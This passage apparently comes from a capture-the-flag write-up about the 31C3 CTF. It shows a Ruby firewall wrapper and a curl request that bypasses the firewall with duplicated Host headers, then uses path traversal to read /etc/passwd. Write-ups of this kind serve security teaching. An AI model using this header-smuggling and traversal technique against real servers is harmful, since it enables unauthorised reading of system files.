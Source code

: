 ```ruby

    def acceptable?(request)
        raise NotImplementedError
    end

    def test(request)
        abort unless acceptable?(request)
    end

    def abort
        STDOUT.write "HTTP/1.0 403 Forbidden\r\n\r\nForbidden"
        exit 0
    end

end

if ARGV.size < 2
    STDERR.puts "usage: <fw-plugin> <exec-args>"
    exit 1
end

plugin= eval(File.read("./fw-plugin/"+ARGV[0]+".rb")).new

buffer= InputBuffer.new(STDIN)
line_reader= LineReader.new(buffer)
request= HTTPRequest.new(line_reader)

plugin.test(request)

r, w= IO.pipe
if w.write_nonblock(buffer.buffer) != buffer.buffer.size
    STDOUT.write "HTTP/1.0 413 Request Entity Too Large\r\n\r\n413 Request Entity Too Large"
    exit 0
end
STDIN.reopen(r)
exec(*ARGV[1..-1])
```

It was then clear how to bypass the firewall. That is, duplicating the host
header, placing the malicious payload in the first header, and the valid
legitimate in the second, as the firewall would look at the second header while
the module in charge of serving files would use the first one.

Once we could exploit the path traversal vulnerability, which was the first
file we leaked? The /etc/passwd of course, and there was the flag!

The request that allowed to exploit the path traversal vulnerability and obtain
the flag is the following:

```markup
curl -v -H "Host: ../../../../../../../../../../../../etc" -H "Host: 90.31c3ctf.aachen.ccc.de" http://90.31c3ctf.aachen.ccc.de/passwd
```

![alt flag](http://nopat.ch/g/http_flag.png)


Greetings to my team, [Insanity](http://ka0labs.net)!
